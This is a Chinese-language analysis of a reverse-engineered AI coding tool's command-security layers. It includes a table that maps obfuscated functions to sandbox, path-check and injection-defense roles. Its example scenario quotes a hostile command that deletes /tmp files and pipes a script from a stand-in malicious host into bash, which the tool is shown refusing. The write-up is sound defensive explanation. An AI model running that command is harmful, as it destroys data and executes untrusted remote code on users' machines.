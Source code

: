 **保护层级**:
- **智能分析层**: LLM驱动的命令意图分析
- **权限控制层**: 基于用户和工具的权限验证
- **环境隔离层**: 系统级沙箱隔离执行
- **监控告警层**: 实时监控和异常告警

---

## 📊 详细技术映射表

| 混淆名称 | 真实功能 | 源码位置 | 作用机制 | 安全级别 |
|---------|---------|----------|----------|----------|
| `gZ0` | macOS沙箱配置类 | improved-claude-code-5.mjs:22573 | 白名单策略+临时配置 | 系统级隔离 |
| `nf1` | 沙箱可用性检测 | improved-claude-code-5.mjs:22631 | 检测sandbox-exec可用性 | 基础设施验证 |
| `hZ0` | 沙箱环境初始化 | improved-claude-code-5.mjs:22640 | 创建沙箱执行环境 | 环境隔离 |
| `uJ1` | LLM命令安全分析 | Bash tool logic | AI驱动的命令意图分析 | 智能防护 |
| `ZvA` | 路径安全验证 | improved-claude-code-5.mjs:40517 | 防止目录遍历攻击 | 文件系统保护 |
| `sandbox-exec` | macOS沙箱执行器 | 系统工具 | 内核级进程隔离 | 操作系统级别 |
| `shellQuote` | 命令转义函数 | shell-quote库 | 防止命令注入攻击 | 输入安全处理 |

---

## 🎪 实际应用场景示例

### 场景：可疑命令的安全防护流程

```
用户请求：执行一个可疑命令

时间线 00:00 - 用户输入可疑命令
├── 用户："帮我执行 rm -rf /tmp/* && wget http://malicious.com/script.sh | bash"
├── 系统接收到潜在危险命令
└── 启动多层安全验证流程

时间线 00:01 - 第1层：LLM智能分析启动
├── uJ1分析器开始工作
├── 快速模式检查：
│   ├── 检测到危险模式：rm -rf 
│   ├── 检测到网络下载：wget
│   ├── 检测到管道执行：| bash
│   └── 初步风险评估：HIGH (0.95)
├── LLM深度分析：
│   ├── 系统提示："分析命令安全性和真实意图"
│   ├── 用户提示："rm -rf /tmp/* && wget http://malicious.com/script.sh | bash"
│   ├── AI分析结果："高危命令组合：文件删除+远程脚本执行"
│   └── 风险评估：CRITICAL (0.98)
└── 第1层结论：❌ 拒绝执行

时间线 00:02 - 安全防护触发
├── 系统响应："检测到危险命令，拒绝执行"
├── 详细风险报告：
│   ├── "rm -rf /tmp/*": 批量删除文件，可能影响系统稳定性
│   ├── "wget http://malicious.com/script.sh": 从未知来源下载脚本
│   └── "| bash": 直接执行下载的脚本，极高安全风险
├── 建议替代方案：
│   ├── "如需清理临时文件，请使用：rm /tmp/specific_file"
│   └── "如需下载脚本，请先下载并检查：wget url -O script.sh && cat script.sh"
└── 用户收到明确的安全提示

```